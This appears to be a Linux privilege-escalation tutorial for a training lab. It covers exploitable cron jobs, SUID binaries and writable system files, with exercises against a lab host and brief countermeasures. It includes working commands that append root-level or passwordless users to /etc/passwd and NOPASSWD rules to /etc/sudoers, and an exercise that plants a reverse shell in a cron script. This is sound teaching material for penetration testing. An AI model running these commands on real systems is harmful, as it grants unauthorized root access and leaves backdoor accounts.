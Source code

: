 # Missconfiguration
## Cron Jobs
Cron is a program that allows users of Unix systems to automatically execute scripts, commands or software at a pre-specified date and time, or on a pre-defined cycle.
Cron jobs, if not configured properly, can be exploited to gain root privileges.

**How Does Cron Work?** 

The behavior of the Cron utility can be fully customized. You can configure the behavior of Cron by editing files called “crontabs”. Unix keeps different copies of crontabs for each user. You can edit your own user’s crontab by running:
````
crontab -e
````
You can also list the current cronjobs for your user by running:

````
crontab -l
````
In Linux systems, the location for the system-wide crontab is /etc/crontab. Cron will run as the root user when executing scripts and commands in this file.

Files in /etc/cron.d are treated the same way as /etc/crontab. They are effectively “crontab snippets”. Their benefit is that they can be added or removed without modifying the central /etc/crontab file.

````
msfadmin@metasploitable:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
````

Each line starting with * or some number is considered as a cron job or task. It is the magic line that cron service will execute.


**Cron enumeration :**
Questions you need to ask yourself:  
1. Are there scripts or binary files in cron jobs that are writable?
2. Can we write to the cron file itself.
3. Is the cron.d directory writable?


To view root’s cron jobs.
````
crontab -l
````

View a user's cron jobs.
````
crontab -u username -l
````

View all the daily cron jobs.
````
ls -la /etc/cron.daily/
````

View a specific daily cron job.
````
less /etc/cron.daily/logrotate
````

You can also list the current cronjobs for your user by running:
````
crontab -l
````

If Cron tasks have been created with elevated privileges, you may not be able to see the created tasks. 
To solve this problem you can use [pspy](https://github.com/DominicBreuker/pspy)

pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute.

````
./pspy32 

2022/08/02 05:30:01 CMD: UID=0    PID=9127   | 
2022/08/02 05:30:01 CMD: UID=256  PID=9126   | bash /var/www/backup.sh 
2022/08/02 05:30:01 CMD: UID=32   PID=9125   | /USR/SBIN/CRON 
````

----
**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.12.1.36 with alice account.

- Download pspy32 in a folder ``/home/alice/your-name/``.
    > scp pspy32 alice@10.12.1.36:/home/alice/Kramer

- For pspy32 to work, you must give it execution rights. 
    > chmod +x paspy32

- Wait 5 minutes, you can go get a coffee.

- Is there a process to launch? If so, which one?
    > Your answer

- What is the file that is executed?
    > Your answer 

- Do you have write permissions on this file?
    > Your answer 

- Do a test by overwriting the file with a command line to start a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

- Wait 5 minutes, you can check your email.

AND BIM!

---- 

**Countermeasures :**
If your system uses Cron to automate tasks, make sure that none of the scripts that you run through crontab are editable by unprivileged users, and make sure that your Cron scripts are secure!

NEVER EXECUTE COMMANDS WITH sudo or root user and avoid using SUID binaries in the job.

## SUID/SGID
SUID, which stands for set user ID, is a Linux feature that allows users to execute a file with the permissions of a specified user. For example, the Linux ping command typically requires root permissions to open raw network sockets. By marking the ping program as SUID with the owner as root, ping executes with root privileges whenever a low-privileged user runs the program.

````
alice@metasploitable:~$ ls -la /bin | grep rwsr
-rwsr-xr--  1 root fuse  20056 2008-02-26 13:25 fusermount
-rwsr-xr-x  1 root root  81368 2008-04-14 23:36 mount
-rwsr-xr-x  1 root root  30856 2007-12-10 12:33 ping
-rwsr-xr-x  1 root root  26684 2007-12-10 12:33 ping6
-rwsr-xr-x  1 root root  25540 2008-04-02 21:08 su
-rwsr-xr-x  1 root root  63584 2008-04-14 23:36 umount
````
SUID is a feature that, when used correctly, actually improves Linux security. The problem is that administrators can unknowingly introduce dangerous SUID configurations when installing third-party applications or making logical configuration changes.

Many system administrators don't know where to set the SUID bit and where not to. The SUID bit should not be set, especially on a file editor, because an attacker can overwrite all files on the system.

----
**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.12.1.36 with alice account.

- Display the executables whose SUID bit is set.
    > Your command

- [Look at the gtfobins site to see which executable would give you root privileges](https://gtfobins.github.io/)
    > Your answer

- Execute de the command.
- What is the executable that is exploitable and has the possibility to configure the suid ? 
    > Your answer

And BIM !
<details>
  <summary>Hints</summary>
  The name of the executable starts with ``n``
</details>

---- 

**Countermeasures :**
The SUID bit should not be set on a program that allows you to escape to the shell.
You should never set the SUID bit on a file editor/compiler/interpreter because an attacker can easily read/overwrite all files on the system.

## Interesting Files writable
List world writable files on the system.
```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```
**Writable /etc/passwd**

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.    
WARNING: you might degrade the current security of the machine.

```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`. 

**Writable /etc/sudoers**

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```
